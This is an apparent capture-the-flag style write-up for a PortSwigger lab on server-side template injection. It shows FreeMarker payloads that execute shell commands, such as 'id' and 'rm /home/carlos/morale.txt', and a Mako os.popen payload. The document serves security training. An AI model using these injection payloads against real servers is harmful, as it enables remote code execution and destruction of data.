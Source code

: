 
# Server-side template injection using documentation

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: content-manager:C0nt3ntM4n4g3r

Hint: You should try solving this lab using only the documentation. However, if you get really stuck, you can try finding a well-known exploit by @albinowax that you can use to solve the lab.

---------------------------------------------

References: 

- https://portswigger.net/web-security/server-side-template-injection/exploiting

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker



![img](images/Server-side%20template%20injection%20using%20documentation/1.png)

---------------------------------------------

It is possible to edit the templates of the posts:



![img](images/Server-side%20template%20injection%20using%20documentation/2.png)


We find there are values calculated with the format "${product.X}":



![img](images/Server-side%20template%20injection%20using%20documentation/3.png)


We can execute for example this payload:

```
${3*3}
```



![img](images/Server-side%20template%20injection%20using%20documentation/4.png)


I tried the Mako's payload from the example and generated an error:

```
<%
                import os
                x=os.popen('id').read()
                %>
                ${x}
```



![img](images/Server-side%20template%20injection%20using%20documentation/5.png)


The payload format is:

```
${"freemarker.template.utility.Execute"?new()("id")}
```



![img](images/Server-side%20template%20injection%20using%20documentation/6.png)


Payload to delete the file:

```
${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}
```